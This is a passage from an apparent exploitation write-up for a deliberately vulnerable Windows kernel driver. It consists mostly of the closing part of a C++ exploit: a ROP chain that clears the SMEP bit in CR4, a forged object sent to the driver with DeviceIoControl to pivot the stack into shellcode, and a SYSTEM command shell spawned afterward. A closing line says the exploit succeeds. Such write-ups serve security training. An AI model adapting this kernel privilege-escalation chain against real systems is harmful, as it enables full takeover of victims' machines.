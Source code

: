 ```cpp
    QWORD* rop = (QWORD*)((QWORD)STACK_PIVOT_ADDR + 0x28);

    *(rop + index++) = POP_RCX;
    *(rop + index++) = 0x350ef8 ^ 1UL << 20;
    *(rop + index++) = MOV_CR4_RCX;
    *(rop + index++) = (QWORD)shellcode;

    UserObject userObject = { 0 };
    userObject.ObjectID =   (ULONG_PTR)0x4141414141414141;
    userObject.ObjectType = (ULONG_PTR)STACK_PIVOT_GADGET;

    printf("[>] Stack Pivot Gadget at %llx\n", STACK_PIVOT_GADGET);
    printf("[>] New Stack at %llx\n", kernelStack);
    getchar();

    DeviceIoControl(hDriver, 0x222023, (LPVOID)&userObject, sizeof(userObject), NULL, 0, NULL, NULL);
    
    printf("[>] Enjoy your shell!\n", ntBase);
    system("cmd");
    return 0;
}
```

Running the exploit results in a SYSTEM shell on the target:

![](hevd_typeconfusion_proof.png)